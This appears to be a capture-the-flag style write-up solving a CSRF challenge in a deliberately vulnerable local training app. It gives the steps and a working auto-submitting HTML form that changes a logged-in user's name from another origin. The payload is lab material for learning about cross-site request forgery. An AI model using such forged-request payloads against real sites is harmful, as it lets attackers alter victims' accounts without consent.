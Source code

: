 # CSRF

**Difficulty**: :star2::star2::star2:

**Description**: Change the name of a user by performing Cross-Site Request Forgery from [another origin](http://htmledit.squarefree.com/).

**Category**: Broken Access Control

**Tags**:

**Solution**:

Tested on:
- Windows 11
- Firefox: [60.0.2/win64/en-US](https://ftp.mozilla.org/pub/firefox/releases/60.0.2/win64/en-US/Firefox%20Setup%2060.0.2.exe)

> NOTE: New Firefox version can't perform this attack❗.

> NOTE: Firefox version 60.0.2 won't display modal or navigate bar normally, so I suggest you navigate between pages using URL.

First, log in to the user account and navigate to route `localhost:3000/profile`:

![login](https://user-images.githubusercontent.com/64480713/180457006-2225a54c-5249-4799-b472-efd95509daa3.png)

Then open http://htmledit.squarefree.com/ as a new tab:

> NOTE: Open with `http` as intended.

![live HTML editor](https://user-images.githubusercontent.com/64480713/180457493-cb81f9e7-4446-4528-8ca9-0fef6590695d.png)

Then paste the code below to the HTML live editor:

```html
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="DuckyMomo20012"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

The attack will be performed **immediately**:

![CSRF attack](https://user-images.githubusercontent.com/64480713/180457737-f06682c3-0113-48e5-b8db-6965b2894275.png)

Then reload the profile page to see changes:

![result](https://user-images.githubusercontent.com/64480713/180457852-255de565-3977-4bb6-bd9b-7579fab1db0c.png)

